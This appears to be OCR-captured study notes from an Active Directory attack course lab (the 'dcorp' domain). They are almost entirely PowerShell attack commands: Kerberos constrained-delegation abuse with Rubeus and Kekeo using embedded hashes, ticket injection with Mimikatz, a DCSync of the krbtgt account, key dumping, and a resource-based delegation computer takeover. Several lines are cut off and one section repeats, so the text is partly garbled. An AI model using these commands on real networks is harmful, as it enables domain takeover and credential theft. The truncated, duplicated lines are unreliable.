 ```powershell
# To enumerate users with constrained delegation we can use PowerView
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -TrustedToAuth
CRTP 19
# Abuse Constrained Delegation using websvc with Rubeus
# In the below command, we request get a TGS for websvc as the Domain Administrator
C:\AD\Tools\Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Admin
# Check if the TGS is injected:
klist
# Try accessing filesystem on dcorp-mssql:
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
# Abuse Constrained Delegation using websvc with Kekeo
.\kekeo.exe
# use the tgt::ask module from kekeo to request a TGT from websvc
tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
# use this TGT and request a TGS
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administra
# Next, inject the ticket in current session to use it:
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_http~dcorp-mssql.dollarcor
# enumerate the computer accounts with constrained delegation enabled using
# PowerView:
Get-DomainComputer -TrustedToAuth
# Abuse Constrained Delegation using dcorp-adminsrv with Rubeus
# We have the AES keys of dcorp-adminsrv$ from dcorp-adminsrv machine. Run the below command
# from an elevated command prompt as SafetyKatz, that we will use for DCSync, would need that:
C:\AD\Tools\Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /impersonateu
# Run the below command to abuse the LDAP ticket:
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
# https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-compute
# Find a computer object in dcorp domain where we have Write permissions.
# Use PowerView
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
# Abuse this user and start process with him credentials
# Load the Powerview.ps1 in the new process and run :
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std111$' -Verbose
# Get AES keys of your student VM
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"
# With Rubeus, abuse the RBCD to access dcorp-mgmt as Domain Administrator - Administrator:
C:\AD\Tools\Rubeus.exe s4u /user:dcorp-student1$ /aes256:ee491b85604e2cfbfd95c59840c3141f722b1a8b79664ce8d4694325f5068481 /msdsspn:http
# Connect to the machine with winrs
winrs -r:dcorp-mgmt cmd
Kerberos Resource-based Constrained Delegation: Computer Object Takeover
# Find a computer object in dcorp domain where we have Write permissions.
# Use PowerView
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
# Abuse this user and start process with him credentials
# Load the Powerview.ps1 in the new process and run :
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std111$' -Verbose
# Get AES keys of your student VM
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"
# With Rubeus, abuse the RBCD to access dcorp-mgmt as Domain Administrator - Administrator:
C:\AD\Tools\Rubeus.exe s4u /user:dcorp-student1$ /aes256:ee491b85604e2cfbfd95c59840c3141f722b1a8b79664ce8d4694325f5068481 /msdsspn:http
# Connect to the machine with winrs
winrs -r:dcorp-mgmt cmd
Cross Forest Attacks
```